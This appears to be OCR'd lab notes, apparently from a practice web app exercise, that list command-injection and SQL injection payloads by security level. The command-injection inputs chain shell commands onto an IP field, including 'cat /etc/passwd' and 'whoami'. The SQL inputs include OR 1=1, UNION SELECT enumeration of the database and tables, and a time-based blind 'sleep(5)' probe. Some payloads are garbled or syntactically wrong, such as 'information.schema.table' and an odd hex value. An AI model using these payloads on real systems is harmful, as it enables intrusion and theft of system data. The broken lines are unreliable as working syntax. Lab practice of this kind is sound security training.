 SQL INJECTION/COMMAND EXECUTION

 
COMMAND EXECUTION

 

● IP COMMAND
 

 
● 192.168.128.2;ls

 
 
 
● 192.168.128.2;pwd

 
● 192.168.128.2;cat/etc/passwd
 

 
● 192.168.128.2&&whoami(low)

 
 
● 192.168.128.2&whoami(medium)

 
 
 
SQL Injection
 
● ENTERING 1’ ORDER 2#

 
 
● Entering 2

SQL INJECTION (MEDIUM)
● Entering 1 OR 1=1


● Entering 1 union select version() , database()#


Entering 1 union select 1 , table_name from information.schema.table where table _schema=0x6467761



Blind SQL (Low)

● Entering 1’ sleep(5)#
